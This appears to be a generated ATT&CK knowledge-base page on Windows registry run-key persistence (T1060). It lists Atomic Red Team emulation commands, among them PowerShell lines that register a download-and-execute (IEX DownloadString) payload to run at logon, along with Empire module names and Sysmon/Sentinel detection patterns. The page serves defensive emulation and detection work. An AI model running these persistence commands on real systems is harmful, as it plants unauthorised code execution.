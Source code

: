 
# Registry Run Keys / Startup Folder

## Description

### MITRE Description

> Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. (Citation: Microsoft Run Key) These programs will be executed under the context of the user and will have the account's associated permissions level.

The following run keys are created by default on Windows systems:
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce</code>

The <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx</code> is also available but is not created by default on Windows Vista and newer. Registry run key entries can reference programs directly or list them as a dependency. (Citation: Microsoft RunOnceEx APR 2018) For example, it is possible to load a DLL at logon using a "Depend" key with RunOnceEx: <code>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\temp\evil[.]dll"</code> (Citation: Oddvar Moe RunOnceEx Mar 2018)

The following Registry keys can be used to set startup folder items for persistence:
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders</code>
* <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders</code>
* <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders</code>

The following Registry keys can control automatic startup of services during boot:
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices</code>

Using policy settings to specify startup programs creates corresponding values in either of two Registry keys:
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run</code>

The Winlogon key controls actions that occur when a user logs on to a computer running Windows 7. Most of these actions are under the control of the operating system, but you can also add custom actions here. The <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit</code> and <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell</code> subkeys can automatically launch programs.

Programs listed in the load value of the registry key <code>HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows</code> run when any user logs on.

By default, the multistring BootExecute value of the registry key <code>HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager</code> is set to autocheck autochk *. This value causes Windows, at startup, to check the file-system integrity of the hard disks if the system has been shut down abnormally. Adversaries can add other programs or processes to this registry value which will automatically launch at boot.


Adversaries can use these configuration locations to execute malware, such as remote access tools, to maintain persistence through system reboots. Adversaries may also use [Masquerading](https://attack.mitre.org/techniques/T1036) to make the Registry entries look as if they are associated with legitimate programs.

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: intentionally left blank
* Permissions: ['User', 'Administrator']
* Platforms: ['Windows']
* Remote: intentionally left blank
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1060

## Potential Commands

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /t REG_SZ /F /D "C:\Path\AtomicRedTeam.exe"

REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\Path\AtomicRedTeam.dll"

$RunOnceKey = "#{reg_key_path}"
set-itemproperty $RunOnceKey "NextRun" 'powershell.exe "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'

$RunOnceKey = "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'

Software\Microsoft\Windows\CurrentVersion\Run|Software\Microsoft\Windows\CurrentVersion\RunOnce|Software\Microsoft\Windows\CurrentVersion\RunOnceEx|Software\Microsoft\Windows\CurrentVersion\RunServicesOnce|Software\Microsoft\Windows\CurrentVersion\RunServices|SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad|Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run|Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders|Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
\Microsoft\Windows\Start Menu\Programs\Startup|Software\Microsoft\Windows\CurrentVersion\Run|Software\Microsoft\Windows\CurrentVersion\RunOnce|Software\Microsoft\Windows\CurrentVersion\RunOnceEx|Software\Microsoft\Windows\CurrentVersion\RunServicesOnce|Software\Microsoft\Windows\CurrentVersion\RunServices|SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad|Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run|Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders|Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders\Microsoft\Windows\Start Menu\Programs\Startup
\Microsoft\Windows\Start Menu\Programs\Startup\Microsoft\Windows\Start Menu\Programs\Startup
powershell/persistence/elevated/registry
powershell/persistence/elevated/registry
powershell/persistence/userland/registry
powershell/persistence/userland/registry
```

## Commands Dataset

```
[{'command': 'REG ADD '
             '"HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run" /V '
             '"Atomic Red Team" /t REG_SZ /F /D '
             '"C:\\Path\\AtomicRedTeam.exe"\n',
  'name': None,
  'source': 'atomics/T1060/T1060.yaml'},
 {'command': 'REG ADD '
             'HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnceEx\\0001\\Depend '
             '/v 1 /d "C:\\Path\\AtomicRedTeam.dll"\n',
  'name': None,
  'source': 'atomics/T1060/T1060.yaml'},
 {'command': '$RunOnceKey = "#{reg_key_path}"\n'
             'set-itemproperty $RunOnceKey "NextRun" \'powershell.exe "IEX '
             '(New-Object '
             'Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"\'\n',
  'name': None,
  'source': 'atomics/T1060/T1060.yaml'},
 {'command': '$RunOnceKey = '
             '"HKLM:\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce"\n'
             'set-itemproperty $RunOnceKey "NextRun" \'#{thing_to_execute} '
             '"IEX (New-Object '
             'Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"\'\n',
  'name': None,
  'source': 'atomics/T1060/T1060.yaml'},
 {'command': 'Software\\Microsoft\\Windows\\CurrentVersion\\Run|Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce|Software\\Microsoft\\Windows\\CurrentVersion\\RunOnceEx|Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesOnce|Software\\Microsoft\\Windows\\CurrentVersion\\RunServices|SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\ShellServiceObjectDelayLoad|Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Run|Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\User '
             'Shell '
             'Folders|Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell '
             'Folders',
  'name': None,
  'source': 'SysmonHunter - Registry Run Keys / Startup Folder'},
 {'command': '\\Microsoft\\Windows\\Start '
             'Menu\\Programs\\Startup|Software\\Microsoft\\Windows\\CurrentVersion\\Run|Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce|Software\\Microsoft\\Windows\\CurrentVersion\\RunOnceEx|Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesOnce|Software\\Microsoft\\Windows\\CurrentVersion\\RunServices|SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\ShellServiceObjectDelayLoad|Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Run|Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\User '
             'Shell '
             'Folders|Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell '
             'Folders\\Microsoft\\Windows\\Start Menu\\Programs\\Startup',
  'name': None,
  'source': 'SysmonHunter - Registry Run Keys / Startup Folder'},
 {'command': '\\Microsoft\\Windows\\Start '
             'Menu\\Programs\\Startup\\Microsoft\\Windows\\Start '
             'Menu\\Programs\\Startup',
  'name': None,
  'source': 'SysmonHunter - Registry Run Keys / Startup Folder'},
 {'command': 'powershell/persistence/elevated/registry',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/persistence/elevated/registry',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/persistence/userland/registry',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/persistence/userland/registry',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'}]
```

## Potential Detections

```json

```

## Potential Queries

```json
[{'name': 'Registry Run Keys Or Start Folder',
  'product': 'Azure Sentinel',
  'query': 'Sysmon| where (EventID == 12 or EventID == 13 or EventID == 14) '
           'and(registry_key_path contains '
           '"*\\\\SOFTWARE\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Run*"or '
           'registry_key_path contains '
           '"*\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Explorer\\\\*Shell '
           'Folders")'}]
```

## Raw Dataset

```json
[{'Atomic Red Team Test - Registry Run Keys / Start Folder': {'atomic_tests': [{'description': 'Run '
                                                                                               'Key '
                                                                                               'Persistence\n'
                                                                                               '\n'
                                                                                               'Upon '
                                                                                               'successful '
                                                                                               'execution, '
                                                                                               'cmd.exe '
                                                                                               'will '
                                                                                               'modify '
                                                                                               'the '
                                                                                               'registry '
                                                                                               'by '
                                                                                               'adding '
                                                                                               '"Atomic '
                                                                                               'Red '
                                                                                               'Team" '
                                                                                               'to '
                                                                                               'the '
                                                                                               'Run '
                                                                                               'key. '
                                                                                               'Output '
                                                                                               'will '
                                                                                               'be '
                                                                                               'via '
                                                                                               'stdout. \n',
                                                                                'executor': {'cleanup_command': 'REG '
                                                                                                                'DELETE '
                                                                                                                '"HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run" '
                                                                                                                '/V '
                                                                                                                '"Atomic '
                                                                                                                'Red '
                                                                                                                'Team" '
                                                                                                                '/f '
                                                                                                                '>nul '
                                                                                                                '2>&1\n',
                                                                                             'command': 'REG '
                                                                                                        'ADD '
                                                                                                        '"HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run" '
                                                                                                        '/V '
                                                                                                        '"Atomic '
                                                                                                        'Red '
                                                                                                        'Team" '
                                                                                                        '/t '
                                                                                                        'REG_SZ '
                                                                                                        '/F '
                                                                                                        '/D '
                                                                                                        '"#{command_to_execute}"\n',
                                                                                             'name': 'command_prompt'},
                                                                                'input_arguments': {'command_to_execute': {'default': 'C:\\Path\\AtomicRedTeam.exe',
                                                                                                                           'description': 'Thing '
                                                                                                                                          'to '
                                                                                                                                          'Run',
                                                                                                                           'type': 'Path'}},
                                                                                'name': 'Reg '
                                                                                        'Key '
                                                                                        'Run',
                                                                                'supported_platforms': ['windows']},
                                                                               {'description': 'RunOnce '
                                                                                               'Key '
                                                                                               'Persistence.\n'
                                                                                               '\n'
                                                                                               'Upon '
                                                                                               'successful '
                                                                                               'execution, '
                                                                                               'cmd.exe '
                                                                                               'will '
                                                                                               'modify '
                                                                                               'the '
                                                                                               'registry '
                                                                                               'to '
                                                                                               'load '
                                                                                               'AtomicRedTeam.dll '
                                                                                               'to '
                                                                                               'RunOnceEx. '
                                                                                               'Output '
                                                                                               'will '
                                                                                               'be '
                                                                                               'via '
                                                                                               'stdout. \n',
                                                                                'executor': {'cleanup_command': 'REG '
                                                                                                                'DELETE '
                                                                                                                'HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnceEx\\0001\\Depend '
                                                                                                                '/v '
                                                                                                                '1 '
                                                                                                                '/f '
                                                                                                                '>nul '
                                                                                                                '2>&1\n',
                                                                                             'command': 'REG '
                                                                                                        'ADD '
                                                                                                        'HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnceEx\\0001\\Depend '
                                                                                                        '/v '
                                                                                                        '1 '
                                                                                                        '/d '
                                                                                                        '"#{thing_to_execute}"\n',
                                                                                             'name': 'command_prompt'},
                                                                                'input_arguments': {'thing_to_execute': {'default': 'C:\\Path\\AtomicRedTeam.dll',
                                                                                                                         'description': 'Thing '
                                                                                                                                        'to '
                                                                                                                                        'Run',
                                                                                                                         'type': 'Path'}},
                                                                                'name': 'Reg '
                                                                                        'Key '
                                                                                        'RunOnce',
                                                                                'supported_platforms': ['windows']},
                                                                               {'description': 'RunOnce '
                                                                                               'Key '
                                                                                               'Persistence '
                                                                                               'via '
                                                                                               'PowerShell\n'
                                                                                               'Upon '
                                                                                               'successful '
                                                                                               'execution, '
                                                                                               'a '
                                                                                               'new '
                                                                                               'entry '
                                                                                               'will '
                                                                                               'be '
                                                                                               'added '
                                                                                               'to '
                                                                                               'the '
                                                                                               'runonce '
                                                                                               'item '
                                                                                               'in '
                                                                                               'the '
                                                                                               'registry.\n',
                                                                                'executor': {'cleanup_command': 'Remove-ItemProperty '
                                                                                                                '-Path '
                                                                                                                '#{reg_key_path} '
                                                                                                                '-Name '
                                                                                                                '"NextRun" '
                                                                                                                '-Force '
                                                                                                                '-ErrorAction '
                                                                                                                'Ignore\n',
                                                                                             'command': '$RunOnceKey '
                                                                                                        '= '
                                                                                                        '"#{reg_key_path}"\n'
                                                                                                        'set-itemproperty '
                                                                                                        '$RunOnceKey '
                                                                                                        '"NextRun" '
                                                                                                        "'#{thing_to_execute} "
                                                                                                        '"IEX '
                                                                                                        '(New-Object '
                                                                                                        'Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"\'\n',
                                                                                             'elevation_required': True,
                                                                                             'name': 'powershell'},
                                                                                'input_arguments': {'reg_key_path': {'default': 'HKLM:\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce',
                                                                                                                     'description': 'Path '
                                                                                                                                    'to '
                                                                                                                                    'registry '
                                                                                                                                    'key '
                                                                                                                                    'to '
                                                                                                                                    'update',
                                                                                                                     'type': 'Path'},
                                                                                                    'thing_to_execute': {'default': 'powershell.exe',
                                                                                                                         'description': 'Thing '
                                                                                                                                        'to '
                                                                                                                                        'Run',
                                                                                                                         'type': 'Path'}},
                                                                                'name': 'PowerShell '
                                                                                        'Registry '
                                                                                        'RunOnce',
                                                                                'supported_platforms': ['windows']}],
                                                              'attack_technique': 'T1060',
                                                              'display_name': 'Registry '
                                                                              'Run '
                                                                              'Keys '
                                                                              '/ '
                                                                              'Start '
                                                                              'Folder'}},
 {'SysmonHunter - T1060': {'description': None,
                           'level': 'high',
                           'name': 'Registry Run Keys / Startup Folder',
                           'phase': 'Persistence',
                           'query': [{'reg': {'path': {'pattern': 'Software\\Microsoft\\Windows\\CurrentVersion\\Run|Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce|Software\\Microsoft\\Windows\\CurrentVersion\\RunOnceEx|Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesOnce|Software\\Microsoft\\Windows\\CurrentVersion\\RunServices|SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\ShellServiceObjectDelayLoad|Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Run|Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\User '
                                                                  'Shell '
                                                                  'Folders|Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell '
                                                                  'Folders'}},
                                      'type': 'reg'},
                                     {'file': {'path': {'pattern': '\\Microsoft\\Windows\\Start '
                                                                   'Menu\\Programs\\Startup'}},
                                      'process': {'cmdline': {'pattern': '\\Microsoft\\Windows\\Start '
                                                                         'Menu\\Programs\\Startup|Software\\Microsoft\\Windows\\CurrentVersion\\Run|Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce|Software\\Microsoft\\Windows\\CurrentVersion\\RunOnceEx|Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesOnce|Software\\Microsoft\\Windows\\CurrentVersion\\RunServices|SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\ShellServiceObjectDelayLoad|Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Run|Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\User '
                                                                         'Shell '
                                                                         'Folders|Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell '
                                                                         'Folders'}},
                                      'type': 'process'},
                                     {'file': {'path': {'pattern': '\\Microsoft\\Windows\\Start '
                                                                   'Menu\\Programs\\Startup'}},
                                      'process': {'cmdline': {'pattern': '\\Microsoft\\Windows\\Start '
                                                                         'Menu\\Programs\\Startup'}},
                                      'type': 'file'}]}},
 {'Empire Module XLSX Sheet by dstepanic': {'ATT&CK Technique #1': 'T1060',
                                            'ATT&CK Technique #2': '',
                                            'Concatenate for Python Dictionary': '"powershell/persistence/elevated/registry":  '
                                                                                 '["T1060"],',
                                            'Empire Module': 'powershell/persistence/elevated/registry',
                                            'Technique': 'Registry Run Keys / '
                                                         'Start Folder'}},
 {'Empire Module XLSX Sheet by dstepanic': {'ATT&CK Technique #1': 'T1060',
                                            'ATT&CK Technique #2': '',
                                            'Concatenate for Python Dictionary': '"powershell/persistence/userland/registry":  '
                                                                                 '["T1060"],',
                                            'Empire Module': 'powershell/persistence/userland/registry',
                                            'Technique': 'Registry Run Keys / '
                                                         'Start Folder'}}]
```

# Tactics


* [Persistence](../tactics/Persistence.md)


# Mitigations

None

# Actors


* [APT29](../actors/APT29.md)

* [MuddyWater](../actors/MuddyWater.md)
    
* [APT37](../actors/APT37.md)
    
* [Lazarus Group](../actors/Lazarus-Group.md)
    
* [Turla](../actors/Turla.md)
    
* [Leviathan](../actors/Leviathan.md)
    
* [APT19](../actors/APT19.md)
    
* [Patchwork](../actors/Patchwork.md)
    
* [FIN10](../actors/FIN10.md)
    
* [FIN6](../actors/FIN6.md)
    
* [Dark Caracal](../actors/Dark-Caracal.md)
    
* [BRONZE BUTLER](../actors/BRONZE-BUTLER.md)
    
* [Cobalt Group](../actors/Cobalt-Group.md)
    
* [Ke3chang](../actors/Ke3chang.md)
    
* [Honeybee](../actors/Honeybee.md)
    
* [Magic Hound](../actors/Magic-Hound.md)
    
* [Putter Panda](../actors/Putter-Panda.md)
    
* [APT18](../actors/APT18.md)
    
* [Threat Group-3390](../actors/Threat-Group-3390.md)
    
* [Dragonfly 2.0](../actors/Dragonfly-2.0.md)
    
* [APT32](../actors/APT32.md)
    
* [APT3](../actors/APT3.md)
    
* [Gorgon Group](../actors/Gorgon-Group.md)
    
* [Darkhotel](../actors/Darkhotel.md)
    
* [FIN7](../actors/FIN7.md)
    
* [APT39](../actors/APT39.md)
    
* [APT33](../actors/APT33.md)
    
* [Kimsuky](../actors/Kimsuky.md)
    
* [Machete](../actors/Machete.md)
    
* [APT41](../actors/APT41.md)
    
